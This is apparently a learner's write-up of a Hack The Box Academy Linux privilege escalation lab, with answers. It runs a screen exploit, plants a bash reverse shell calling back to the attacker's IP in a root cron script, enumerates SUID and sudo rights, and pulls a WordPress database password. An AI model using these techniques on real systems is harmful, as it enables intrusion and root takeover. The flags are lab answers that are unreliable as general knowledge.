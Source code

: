 # Web Requests
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Linux Privilege Escalation
* Tier: II
* Difficulty: Easy
* Category: Offensive
* Time estimate: 8 hours
* Date: DD-MM-YYYY
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Kernel Exploits
### Question:
![](./attachments/Pasted%20image%2020221116125927.png)

**Answer:** ``

---
## Vulnerable Services
### Question:
![](./attachments/Pasted%20image%2020221116125949.png)

```
┌──(kali㉿kali)-[/etc]
└─$ screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```



```
┌──(kali㉿kali)-[/etc]
└─$ ssh htb-student@10.129.93.127   
htb-student@10.129.93.127's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

242 packages can be updated.
174 updates are security updates.


Last login: Wed Nov 16 12:50:06 2022 from 10.10.15.45
htb-student@NIX02:~$ touch script.sh
htb-student@NIX02:~$ nano script.sh

```

Insert the exploit code in `script.sh` and save.

```
htb-student@NIX02:~$ chmod +x script.sh
htb-student@NIX02:~$ ./script.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-htb-student.

# cat /root/screen_exploit/flag.txt
91927dad55ffd22825660da88f2f92e0
```

**Answer:** `91927dad55ffd22825660da88f2f92e0`

---
## Cron Job Abuse
### Question:
![](./attachments/Pasted%20image%2020221116133342.png)

```
htb-student@NIX02:~$ cat /dmz-backups/backup.sh
#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 htb-student@NIX02:~$ nano /dmz-backups/backup.sh
```

Insert one liner payload `bash -i >& /dev/tcp/10.10.15.45/443 0>&1` and save.

Then setup `netcat` to listen for the incoming connection.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.93.127.
Ncat: Connection from 10.129.93.127:45650.
bash: cannot set terminal process group (1884): Inappropriate ioctl for device
bash: no job control in this shell
root@NIX02:~# cat cron_abuse/flag.txt
cat cron_abuse/flag.txt
14347a2c977eb84508d3d50691a7ac4b
```

**Answer:** `14347a2c977eb84508d3d50691a7ac4b`

---
## Special Permissions
### Question 1:
![](./attachments/Pasted%20image%2020221116134354.png)

```
htb-student@NIX02:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 8816 Nov 16 12:55 /tmp/rootshell
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31  2020 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 73424 Feb 12  2016 /bin/sed
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31  2020 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9  2020 /sbin/mount.nfs
```

**Answer:** `/bin/sed`

### Question 2:
![](./attachments/Pasted%20image%2020221116134405.png)

```
htb-student@NIX02:~$ find / -uid 0 -perm -6000 -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/bin/facter
```

**Answer:** `/usr/bin/facter`

---
## Sudo Rights Abuse
### Question:
![](./attachments/Pasted%20image%2020221116135558.png)

```
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

**Answer:** `/usr/bin/openssl`

---
## Path Abuse
### Question:
![](./attachments/Pasted%20image%2020221116140516.png)

```
htb-student@NIX02:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp
```

**Answer:** `/tmp`

---
## 
### Question:
![](./attachments/Pasted%20image%2020221116141355.png)
*Hint: Look in the default WordPress configuration file.*

```
htb-student@NIX02:~$ ls /var/www/html
index.php    wp-activate.php     wp-comments-post.php  wp-content   wp-links-opml.php  wp-mail.php      wp-trackback.php
license.txt  wp-admin            wp-config.php         wp-cron.php  wp-load.php        wp-settings.php  xmlrpc.php
readme.html  wp-blog-header.php  wp-config-sample.php  wp-includes  wp-login.php       wp-signup.php
htb-student@NIX02:~$ cat /var/www/html/wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'W0rdpr3ss_sekur1ty!' );
htb-student@NIX02:~$
```

**Answer:** `W0rdpr3ss_sekur1ty!`

---
## 
### Question:


**Answer:** ``

---
## 
### Question:


**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]